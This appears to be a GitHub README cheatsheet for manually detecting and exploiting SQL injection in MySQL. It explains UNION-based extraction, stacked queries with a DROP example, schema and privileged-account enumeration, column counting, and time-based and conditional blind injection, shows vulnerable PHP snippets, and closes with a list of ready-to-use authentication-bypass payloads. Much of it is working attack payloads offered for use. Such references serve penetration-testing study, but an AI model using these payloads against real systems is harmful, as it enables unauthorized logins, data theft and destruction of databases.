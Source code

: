 # MySQL-SQL-Injection-Cheatsheet
Tips for manually detect &amp; exploit SQL injection Vulnerability : MySQL

# Comment in MySQL <br>
1.  \# <br>
2.  -- (After double dash put space) <br>
3.  /\*\*/  <br>
 Ex: SELECT * from users/**/WHERE username='rk' AND password='123'; /*SQL keyword is case insansitive */  <br>
 
# MySQL LIMIT Clause  <br>
 1. The LIMIT clause is used to specify the number of records to return.  <br>
  Ex: SELECT * FROM users where username='' or 1=1 LIMIT 1; /*Without limit keyword it will return multiple result. it will help in auth bypass*/  <br>
  
# MySQL UNION Operator  <br>
 1. The UNION operator is used to combine the result-set of two or more SELECT statements.  <br>
    a. Every SELECT statement within UNION must have the same number of columns.  <br>
    b. The columns must also have similar data types.  <br>
    c. The columns in every SELECT statement must also be in the same order.  <br>
  Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password'; /* Select from same table */  <br>
  Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password' FROM hack.users;  /* Select from different DB and table */  <br>
  
# MYSQL Stack query <br>
1. MySQL does not support stack query with PHP, ASP.NET, Java <br>
Ex: SELECT * FROM products WHERE id = 1; DROP users-- /* stack query example */ <br>
  
# Substring  <br>
  1. SUBSTRING('MySQL', 3, 2)  <br>

# String without quote(' or ") <br>
1. using CONCAT function <br>
Ex: SELECT CONCAT(CHAR(77),CHAR(89),CHAR(83),CHAR(81),CHAR(76)); /* return MYSQL string */  <br>
2. using hex value <br>
Ex: SELECT 0x4d7953514c;  /* return MYSQL string */  <br>

# Database version <br>
1. SELECT @@version <br>

# Current Database <br>
Ex: SELECT database(); <br>

# Current Database User <br>
Ex 1: SELECT user(); <br>
Ex 2:SELECT system_user(); <br>

# List DBA account <br>
Ex: SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; <br>

# Database contents <br>
1. Selecting all the tables in MySQL along with DB <br>
Ex: SELECT * FROM information_schema.tables; <br>
2. electing all the columns in perticular table <br>
Ex: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE_NAME'; <br>

# Order by <br>
1. The ORDER BY keyword is used to sort the result-set in ascending or descending order. But these keywords are used to identify no of columns present in table. <br>
Ex: SELECT * FROM Customers ORDER by 7; /* if columns are less than 7 in the table. query gives SQL error. Check on less than 7 values until error resolved.  */ <br>

# Time Delay <br>
Ex 1: SELECT sleep(10)  /* Sleep for 10 sec */ <br>
Ex 2: SELECT IF(CONDITION-HERE,sleep(10),'a'  /* Sleep for 10 sec if codition is True*/ <br>

# Detecting SQL Injection <br>
Case 1: When source code is available. <br>
Try to find out dynamic query where user inputs are concatenating to SQL query without/partial sanitizing user's input. Some time developer does mistake to concatenate user input into query while using parameterize SQL query. <br>
Ex 1: <br>
$username = $_POST["username"]; <br>
$password = $_POST["password"]; <br>
$sql="SELECT * FROM users WHERE username = '$username' AND password = '$password'"; <br>
$result = mysql_query($sql, $link); <br>
<br>
Ex 2: parameterized query <br>
$firstname = $_POST["firstname"]; <br>
$lastname = $_POST["lastname"]; <br>
$email = $_POST["email"]; <br>

$stmt = $conn->prepare("INSERT INTO MyGuests (firstname, lastname, email) <br>
VALUES ($firstname, :lastname, :email)"); /* Userinput "firstname" is directly concatenated into quey. So snippet is vulnerable to SQL Injection */  <br>
$stmt->bindParam(':lastname', $lastname); <br>
$stmt->bindParam(':email', $email); <br>
<br>
Case 2: Black box error based SQL Injection <br>
1. single quote('), double quote("), and(&), semicolon(;), double dash(--) any character that break the SQL syntax. SQL server return Syntex error to end user. <br>
  Ex : $sql="SELECT * FROM users WHERE username = ''' AND password = '$password'";  /* gives syntax error */ <br>
  
Case 3. Blind SQL Injection (Conditional) <br>
1. App return data based on True/False condition <br>
Ex 1: "SELECT * FROM books WHERE bookid = -2 or 2>1# <br>
Ex 2: "SELECT * FROM books WHERE bookid = -2 or 2>1 LIMIT 1# /*Return 1st result only*/ <br>
<br>
Case 4: Blind SQL Injection (Time delay) <br>
1. App return data after delaying certain time <br>
Ex 1: "SELECT * FROM books WHERE bookid = -2 or sleep(10)#; <br>
2. Condition time delay <br>
Ex 2. SELECT IF(1=1,sleep(10),'a'); <br>

#Authentication Bypass <br>
1. admin' #  /*when user is admin */ <br>
2. admin' -- /*space after double dash*/ <br>
3. admin' or 1=1 # <br>
4. admin' and 1=1 # <br>
5. ' or 2>1 #  /*when username is not known*/ <br>
6. " or 2<1 #   /*When user input is quoted under double dash*/ <br>
7. ' or 1=1 LIMIT 1 # <br>
8. ' | 1=1 # <br>
9. 
    
